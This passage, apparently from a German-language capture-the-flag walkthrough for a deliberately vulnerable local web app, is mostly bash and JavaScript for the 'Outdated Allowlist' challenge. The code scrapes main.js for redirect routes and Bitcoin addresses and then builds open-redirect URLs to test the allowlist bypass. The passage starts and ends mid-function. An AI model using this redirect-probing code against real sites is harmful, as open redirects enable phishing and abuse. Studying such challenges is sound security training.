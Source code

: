```javascript
    const redirectUrls = [
        `/#/redirect?to=${btcAddress}`,
        `/#/redirect?url=${btcAddress}`,
        `/#/?redirect=${btcAddress}`,
        `/#/donation?to=${btcAddress}`
    ];
    
    console.log(`🧪 Testing redirects for: ${btcAddress}`);
    redirectUrls.forEach(url => {
        console.log(`🔗 Try: http://localhost:3000${url}`);
    });
}
```

### 🛠️ Manuelle Methode

```bash
# 1. Finde alle Routen mit redirect-Parametern
curl -s http://localhost:3000/main.js | grep -i "redirect\|to\|url"

# 2. Suche nach Bitcoin-Adressen im JavaScript
curl -s http://localhost:3000/main.js | grep -o -E "1[A-HJ-NP-Z0-9]{25,34}|3[A-HJ-NP-Z0-9]{25,34}|bc1[A-HJ-NP-Z0-9]{25,62}"

# 3. Teste gefundene Adressen manuell
# Beispiel für typische BTC-Adresse:
echo "http://localhost:3000/#/redirect?to=1AbKfgvw9psQ41NuW8w"
```

### 🔍 Exploit Workflow

```javascript
// Vollständiger Workflow für BTC Address Discovery
async function exploitOutdatedAllowlist() {
    console.log('🕵️ Starting Outdated Allowlist Exploit...');
    
    try {
        // 1. Lade main.js
        const response = await fetch('http://localhost:3000/main.js');
        const jsCode = await response.text();
        
        // 2. Suche nach Bitcoin-Adressen
        const btcRegex = /1[A-HJ-NP-Z0-9]{25,34}/g;
        const foundAddresses = jsCode.match(btcRegex) || [];
        
        console.log(`₿ Found ${foundAddresses.length} potential BTC addresses:`);
        foundAddresses.forEach((addr, index) => {
            console.log(`${index + 1}. ${addr}`);
        });
        
        // 3. Teste Redirect-Parameter
        const redirectParams = ['to', 'url', 'redirect', 'target'];
        const baseUrls = ['/#/redirect', '/#/', '/#/donation'];
        
        for (const address of foundAddresses) {
            for (const baseUrl of baseUrls) {
                for (const param of redirectParams) {
                    const testUrl = `${baseUrl}?${param}=${address}`;
                    console.log(`🧪 Test: http://localhost:3000${testUrl}`);
                    
                    // In echter Anwendung würdest du hier eine Anfrage senden
                    // und prüfen, ob der Redirect funktioniert
                }
            }
```